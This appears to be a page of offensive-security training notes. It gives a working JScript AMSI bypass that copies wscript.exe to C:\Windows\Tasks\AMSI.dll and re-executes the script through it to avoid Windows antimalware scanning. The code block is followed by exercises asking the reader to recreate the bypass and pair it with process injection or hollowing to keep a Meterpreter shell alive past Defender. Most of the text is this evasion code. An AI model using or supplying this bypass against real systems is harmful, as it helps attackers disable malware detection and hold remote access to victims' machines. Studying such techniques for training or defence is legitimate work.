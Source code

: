 ##### Example code:
```vb
var filesys= new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try
{
	if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll")==0)
	{
		throw new Error(1, '');
	}
}
catch(e)
{
	filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
	sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName);
	WScript.Quit(1);
}
```

- *However*, Windows Defender still flags the code and will terminate execution unless one migrates the process or uses a payload that performs process injection or hollowing

### Exercises 7.6.3

1. Recreate the AMSI bypass by renaming wscript.exe to "amsi.dll" and executing it.
2. Instead of a regular shellcode runner, implement this bypass with a process injection or hollowing technique and obtain a Meterpreter shell that stays alive after the detection.